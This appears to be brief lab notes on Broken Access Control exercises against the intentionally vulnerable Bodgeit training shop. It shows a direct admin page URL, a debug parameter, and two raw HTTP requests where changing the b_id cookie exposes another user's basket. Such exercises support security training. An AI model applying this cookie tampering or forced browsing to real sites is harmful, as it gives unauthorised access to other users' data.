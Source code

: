 # A5 - Broken Access Control

## Bodgeit

### Hello admin

`http://owasp.local:8080/bodgeit/admin.jsp`

### Debug please

`http://owasp.local:8080/bodgeit/basket.jsp?debug=true`

### Not my basket

```
GET /bodgeit/basket.jsp HTTP/1.1
Host: owasp.local:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://owasp.local:8080/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=2; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Moj kosik `Cookie: b_id=2;` ?


```
GET /bodgeit/basket.jsp HTTP/1.1
Host: owasp.local:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://owasp.local:8080/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=1; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
